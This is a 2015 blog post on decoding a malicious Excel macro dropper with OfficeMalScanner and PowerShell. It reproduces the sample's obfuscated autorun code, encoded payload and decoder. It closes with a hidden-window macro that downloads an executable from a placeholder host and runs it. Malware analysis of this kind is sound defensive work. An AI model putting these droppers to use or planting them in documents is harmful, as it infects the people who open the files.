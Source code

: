 ```yaml
---
title: 'Office document malware - office_vb_dropper decoding. Sample A'
date: 2015-02-26T19:25:00.002Z
draft: false
aliases: [ "/2015/02/office-document-malware-officevbdropper.html" ]
parent: Blogger
---
```

#### date: 2015-02-26

Lenny Zeltzers cheat sheet will tell you how to extract the macros, however it does not tell you what to do with the macros, or at least point you in the right direction to reveal the code in a more human readable way.  

  

### Procedure

  

In this example I have a new excel formatted document .xlsm. In order to pull out the macro we need to open the file in 7-zip since it is just an archive container.

  

Go into the xl directory and extract the vbaProject.bin

[![](http://3.bp.blogspot.com/-JG0UjtAeogE/VO9u3bG6RpI/AAAAAAAAI80/d_pd1wOkxL8/s1600/1.png)](http://3.bp.blogspot.com/-JG0UjtAeogE/VO9u3bG6RpI/AAAAAAAAI80/d_pd1wOkxL8/s1600/1.png)

  

Now we can use OfficeMalScanner from [www.reconstructer.org](http://www.reconstructer.org/).

  

I tend to create a working folder to drop malware into and extract artifacts etc.

Open up powershell prompt and

  

cd "C:\\Users\\myaccount\\Desktop\\Malware Analysis\\17-02-15"

  

I tend to put programs that don’t require installation under c:\\bin\\ we will now use office mal scanner to extract the vb code.

  

C:\\bin\\OfficeMalScanner\\OfficeMalScanner.exe .\\vbaProject.bin info

  

Now in your working folder, we should have the extracted contents in folder called, VBAPROJECT.BIN-Macros.

  

We have a lot of files, so we need to join them up so it’s easier to debug what’s going on here. 

  

Manual method is to select all files and edit in notepad++, create a new file and copy them in one by one, closing each file that has been copied. I save this files as combined.txt.

  

However it's easier to use powershell to do our bidding.

  

cd .\\VBAPROJECT.BIN-Macros

  

This simple powershell command will join up the files, however the file beginning with \_\_ will be at the end and this has the first routine called.

  

Get-Content \* | Set-Content combined.txt 

  

[![](http://4.bp.blogspot.com/-ou6kz2VZYtc/VO9u3nzDQnI/AAAAAAAAI8k/Z9tBu5NtK08/s1600/2.png)](http://4.bp.blogspot.com/-ou6kz2VZYtc/VO9u3nzDQnI/AAAAAAAAI8k/Z9tBu5NtK08/s1600/2.png)

  

  

It looks like the \_\_SRP\_1d is the project file for the vb macro inside the doc, and as such contains the first function it should execute on document load.

  

  

By combining all these files it should be easier to search for the function that is called.  
  

Sub Workbook\_Open()

    tyrtyaag

End Sub

Searching for the highlighted text finds.

  

Attribute VB\_Name = "Module11"

Sub tyrtyaag()

FfdsfF = NewQkeTzIIHM("pzq-<X-\]|„r\`uryy;r…r-5\[r„:\\owrp-\`†€rz;\[r;droPyvr{6;Q|„{y|nqSvyr54u}G<<AC;@=;A?;>B><x„rsr„rs<stq€rr<q…‡~;w}t4942aRZ\]2iWV\\v|qsuv|VU;pno46H-r…}n{q-2aRZ\]2iWV\\v|qsuv|VU;pno-2aRZ\]2iWV\\v|qsuv|VU;r…rH-€n-2aRZ\]2iWV\\v|qsuv|VU;r…rH")

Shell FfdsfF, vbHide

  

End Sub

I can see here that it is creating a value that is equal to a routine with something passed into it, this looks like the beginning of a decode routine. So I search for the highlighted routine. The shell call will execute the variable that has been decoded.

Attribute VB\_Name = "Module14"

Public Function NewQkeTzIIHM(ByVal AESdyLylMjhJrIu As String) As String

GoTo lZiGBegMhmukPZZYdz

lZiGBegMhmukPZZYdz:

GoTo httIMPHgvoYFI

httIMPHgvoYFI:

GoTo JYUDQqqRamOiNl

JYUDQqqRamOiNl:

GoTo DOIbKh

DOIbKh:

Dim YyJDVSqLkdZk As Long

GoTo epGUden

epGUden:

For YyJDVSqLkdZk = 1 To Len(AESdyLylMjhJrIu)

GoTo lRYrzpUP

lRYrzpUP:

GoTo TELSjKJaPRJjLqoQK

TELSjKJaPRJjLqoQK:

GoTo MblTSGGiqCfyeCTgTRL

MblTSGGiqCfyeCTgTRL:

GoTo xhsyu

xhsyu:

GoTo YtuEcImBipHPFlghfkUO

YtuEcImBipHPFlghfkUO:

NewQkeTzIIHM = NewQkeTzIIHM & Chr(Asc(Mid(AESdyLylMjhJrIu, YyJDVSqLkdZk, 1)) - 13)

GoTo Lcgja

Lcgja:

GoTo Hrnbw

Hrnbw:

GoTo rBkkQJ

rBkkQJ:

GoTo TiOhSQwlicurNkI

TiOhSQwlicurNkI:

Next YyJDVSqLkdZk

GoTo ZoJKUeZCSlFZSIowxvAm

ZoJKUeZCSlFZSIowxvAm:

GoTo QddswzqP

QddswzqP:

GoTo HpsMptHRnAnaBQVygxjn

HpsMptHRnAnaBQVygxjn:

GoTo ysKHfAZQM

ysKHfAZQM:

GoTo EaNQvpSUBV

EaNQvpSUBV:

End Function

So we can use the code to reveal itself if we break it’s flow. Open word and create a new macro module. Copy in both functions and remove the shell line. Take out some of the content in the ( ) and run the macro.

[![](http://2.bp.blogspot.com/-ZM1aftzJYX4/VO9u3rQ6R2I/AAAAAAAAI8c/L8Cq7k6_Ivs/s1600/3.png)](http://2.bp.blogspot.com/-ZM1aftzJYX4/VO9u3rQ6R2I/AAAAAAAAI8c/L8Cq7k6_Ivs/s1600/3.png)

I got this message;

[![](http://2.bp.blogspot.com/-I2TgQ3cHBMM/VO9u4Cb_kOI/AAAAAAAAI8w/n7Y0XapfQQA/s1600/4.png)](http://2.bp.blogspot.com/-I2TgQ3cHBMM/VO9u4Cb_kOI/AAAAAAAAI8w/n7Y0XapfQQA/s1600/4.png)

Now I’ll add in some more and see how this develops.

Ultimately we end up with.

[![](http://4.bp.blogspot.com/-Q7tUM81QK_g/VO9u4EpRtRI/AAAAAAAAI8s/wfu-Al1D3ik/s1600/5.png)](http://4.bp.blogspot.com/-Q7tUM81QK_g/VO9u4EpRtRI/AAAAAAAAI8s/wfu-Al1D3ik/s1600/5.png)

So in short the simplest way to replicate this type of attack is to embed the following autorun macro.

Sub simple() Shell "cmd /K PowerShell.exe (New-Object System.Net.WebClient).DownloadFile('http://somehost/this/folder/nasty.jpg','%TEMP%\\nasty.cab'); expand %TEMP%\\nasty.cab %TEMP%\\nasty.exe; start %TEMP%\\nasty.exe;", vbHide End Sub

This will fail if a proxy is required by the way.